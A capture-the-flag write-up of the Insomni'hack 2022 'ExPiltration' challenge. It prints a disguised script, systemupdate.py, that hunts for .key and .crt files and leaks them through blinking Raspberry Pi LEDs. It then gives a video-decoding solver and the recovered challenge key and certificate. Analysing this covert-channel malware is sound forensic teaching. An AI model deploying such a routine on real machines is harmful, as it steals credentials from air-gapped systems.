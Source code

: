 ```yaml
---
title: Insomni'hack teaser 2022 – ExPiltration
date: '2022-01-30'
draft: false
authors: ['blueset']
tags: ['Misc', 'Python', "Insomni'hack teaser 2022", 'CV', 'Video']
summary: 'Leak data via LED lights.'
---
```

## ExPiltration
> by Kev1n
>
> Oh shit.. (!) Our network has been compromised and data stored on an air-gaped device stolen but we don't know exactly what has been extracted and how? We have 24/7 video surveillance in the server room and nobody has approched the device.. Here is all I have, could you please give us a hand?
>
> [forensic-data.zip](https://static.insomnihack.ch/media/forensic-data-4e3c106c44132d3fb368ba26675169fe4f10289da7bd637c3b3cc0e570579efa.zip)

Download the zip archive and open it to review a huge file structure.

```
Archive:  forensic-data-4e3c106c44132d3fb368ba26675169fe4f10289da7bd637c3b3cc0e570579efa.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
        0  03-19-2022 15:42   forensic-data/
354284310  03-19-2022 15:42   forensic-data/surveillance-camera42-2022.03.19_part8.mp4
(...omitted 3616 files...)
     1322  03-19-2022 15:42   forensic-data/storage/usr/bin/systemupdate.py
---------                     -------
371628093                     3619 files
```

Content of `forensic-data/storage/usr/bin/systemupdate.py`:

```py
import os
import time
import binascii

DELAY = 0.05

def init_leds():
	os.system("echo none > /sys/class/leds/led0/trigger")
	os.system("echo none > /sys/class/leds/led1/trigger")

def restore_leds():
	os.system("echo mmc0 > /sys/class/leds/led0/trigger")
	os.system("echo default-on > /sys/class/leds/led1/trigger")

def text_to_bits(text, encoding='utf-8', errors='surrogatepass'):
    bits = bin(int(binascii.hexlify(text.encode(encoding, errors)), 16))[2:]
    return bits.zfill(8 * ((len(bits) + 7) // 8))

def exfiltrate(data):
	stream = text_to_bits(data)
	for b in stream:
		if b=='0':
			os.system("echo 0 > /sys/class/leds/led0/brightness")
		else:
			os.system("echo 1 > /sys/class/leds/led0/brightness")

		time.sleep(DELAY)
		os.system("echo 1 > /sys/class/leds/led1/brightness")
		time.sleep(DELAY)
		os.system("echo 0 > /sys/class/leds/led1/brightness")
		time.sleep(DELAY)

def find_scret_file(path):
	files = []
	for r, d, f in os.walk(path):
		for file in f:
			if '.key' in file or '.crt' in file:
				files.append(os.path.join(r, file))

	for f in files:
		print("[+] Secret file discovered ({0}).. starting exfiltration".format(f))
		with open(f, 'r') as h:
			data = h.read()
		exfiltrate(data)

def main():

	init_leds()
	find_scret_file("/home")
	restore_leds()

if __name__ == '__main__':
	main()
```

`forensic-data/surveillance-camera42-2022.03.19_part8.mp4` is an 1-hour video recording a Raspberry Pi with blinking green and red LEDs.

![Screenshot of the video](/static/images/insomnihack-teaser-2022/surveillance-camera42-2022.03.19_part8-0001.png)

Looking at the source code, we can see that the script is encoding files to binary and sending them out through blinking LED lights. What we need to do is to extract the blinking patterns and revert them to the original files.

From online resources about Raspberry Pi, we can know that `led0` is the green LED and `led1` is the red LED.

A Python script can be written to extract the luminance of the LEDs frame-by-frame. The luminance can then be polarized and compared to extract the bits.

```py
import cv2
import tqdm
import bitstring

def rgb_to_luminance(r, g, b):
    return 0.2126 * r + 0.7152 * g + 0.0722 * b

vidcap = cv2.VideoCapture('surveillance-camera42-2022.03.19_part8.mp4')

with tqdm.tqdm(total=vidcap.get(cv2.CAP_PROP_FRAME_COUNT)) as t:
    success, image = vidcap.read()
    t.update(1)
    led0 = []
    led1 = []
    while success:
        led0.append(rgb_to_luminance(*image[550][717]))
        led1.append(rgb_to_luminance(*image[550][735]))
        success, image = vidcap.read()
        t.update(1)

bits_raw = []
start = 0
end = 0
threshold = 210
is_on = True
for i in range(len(led0)):
    if is_on and led1[i] < threshold:
        is_on = False
        end = i
        bits_raw.append(sum(led0[start:end]) / (end - start))
    elif not is_on and led1[i] > threshold:
        is_on = True
        start = i

bits = [0 if i < threshold else 1 for i in bits_raw]

b = bitstring.BitArray(bin="".join(map(str, bits[1:])))
print(b.bytes.decode())
```

Below is a partial visualization of the luminance of the LEDs frame by frame. The part shown below gives bytes `…000 0011 0111 0101 0101 0101 0110 010…`, which is `…7UV…` in ASCII bits.

![Partial visualization of the luminance of the LEDs](/static/images/insomnihack-teaser-2022/visualization-led.png)

A Root Certificate Authority certificate and a private key is found from the extracted data.

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,3DCC451E9205CCE3

nDrRqGRPQ2/ngMd3+93aVspUPtLszfEqmBMdY7FGwDOzjR4qW/TAvGutNj5BNNkM
4P1D4+3wNo0vnNCzgBw+MCS6J5Ipo7SV/Gvcg+Y0vzroOdp3q7Qw6FJP0BdCW2y5
khy6K52JwLjfLnekpBGMA/3fl3pzOgKthQqYllFLrJBeNCo8BFSn/PN80oucpBXv
V+F4aFs57dkoPwCvoB7djmLfpTRCOr0j2PeaqKrUq975nt4Ot+iXy6AURCIt7Z9m
sCxU8bwMHIwUqok/VI39UzGO5xTWp1ffrYR1jaDD6WlGSe2duPeG/zeM60E1R8nP
gZpR1zKpH8QOBuVC433glT5LXqfstPmt7MDwnTawkABvFYIElm4Guegm7NdQSPj/
jAXbZRc5Ww7pt2oFcwzW+uXBYEF2g92rxtUDW0wmgTduNASz59OnYEOr5Ly7NQnh
3V+Vcsrgc4Aowi1z6kCpvHoA4Cg7kZanpNguQ6NeXsCNr94P795ffhuRuXOPnwte
pkEpEplOFLOhJgHST/6ACoiJCc4nYuyKBoH07zJ7WHktryT/655EINwuBx5mVoye
2DykTBypxrcJedPBKxSWmAOOY0QnNMABZsOzgPR9wh/uIEw/zInkdTNN0iYpF8TX
EFY0uBjj7IzDQ10Sb9dcnFRB4AFuqOA7GOhh0U7VxZlhtT6UzSb/O+/smNwOD4IU
qj8LVnaZMVW4MmBbEKzsKOGhOvLHrfLVIBFdn5hTHamwS2H87UVXMLtFFPrFz6JC
zHbOb6I2f7gHzvJJPvB4eSMwAZw/iSpRoyJG7PwIKQsb6/GauV7Rfw==
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
MIIDHDCCAoWgAwIBAgIUTIdoG+aad3eIE+iXDUKZCohVKkQwDQYJKoZIhvcNAQEL
BQAwgZ8xCzAJBgNVBAYTAkNIMQ8wDQYDVQQIDAZHZW5ldmExEDAOBgNVBAcMB1Bh
bGV4cG8xFTATBgNVBAoMDEluc29tbmknaGFjazEhMB8GA1UECwwYSU5Te0Y0ckZy
MG0kcDMzZDBmTDFnaHR9MQ4wDAYDVQQDDAVLZXZpbjEjMCEGCSqGSIb3DQEJARYU
a2V2aW5AaW5zb21uaWhhY2suY2gwHhcNMjAwMzAzMTYxOTE1WhcNMjIxMjIyMTYx
OTE1WjCBnzELMAkGA1UEBhMCQ0gxDzANBgNVBAgMBkdlbmV2YTEQMA4GA1UEBwwH
UGFsZXhwbzEVMBMGA1UECgwMSW5zb21uaSdoYWNrMSEwHwYDVQQLDBhJTlN7RjRy
RnIwbSRwMzNkMGZMMWdodH0xDjAMBgNVBAMMBUtldmluMSMwIQYJKoZIhvcNAQkB
FhRrZXZpbkBpbnNvbW5paGFjay5jaDCBnzANBgkqhkiG9w0BAQEFAAOBjQAwgYkC
gYEAxx9oaesqRe4b0wLER6ppALJYrm5qrWu/uqzgy7qjpDKg5BBSl5F+Y2TgwS09
pW5tBylKr92DES19o4cm/8g1wa0iZ9BDeSvbn8g+rTLGHTgctMW2wUg/SMQ9j/G7
nyr5oMiPkJ69kz1We83RJofCK1w8QZVr7UAwDlC1rR6V1gkCAwEAAaNTMFEwHQYD
VR0OBBYEFA130/zdKufEuzcn+cCVwoO84z7iMB8GA1UdIwQYMBaAFA130/zdKufE
uzcn+cCVwoO84z7iMA8GA1UdEwEB/wQFMAMBAf8wDQYJKoZIhvcNAQELBQADgYEA
k0guKE9tSrNYUyeAEsXba15SV0TGg6n+QCD/Co0XvDo7D2yKEfSMnDfjMkv+39E+
U//PN4LT/R6xl2XdqQV1Rk0tFHTrHRzQps/ispaR3lC3VLkx8/KK05eSvKMr1C80
4jzMs6Qw6bT8Dj83eMfjizl3tlE997DgGpruRaOaEOE=
-----END CERTIFICATE-----
```

Save the certificate part to a file, use OpenSSL to inspect it, and find the flag in the Organization Unit field.

```sh
openssl x509 -in root-ca.crt -text -noout
```
